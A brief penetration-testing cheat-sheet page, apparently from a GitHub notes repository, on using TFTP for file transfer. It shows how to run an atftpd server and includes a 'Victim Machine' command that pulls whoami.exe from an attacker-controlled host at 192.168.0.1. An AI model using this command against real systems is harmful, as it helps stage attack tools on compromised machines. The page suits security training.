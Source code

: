 # TFTP

```
Description:  like FTP, but simpler and less secure uses UDP port 69

--daemon                runs in background
--port 69               standard TFTP port
/var/tftp               directory to serve files from

# Start a TFTP Server (on your machine):
sudo atftpd --daemon --port 69 /var/tftp
```

# Victim Machine
```
# Victim Machine Downloads File
tftp -i 192.168.0.1 GET whoami.exe
```

## Back to README.md
[BACK](/README.md)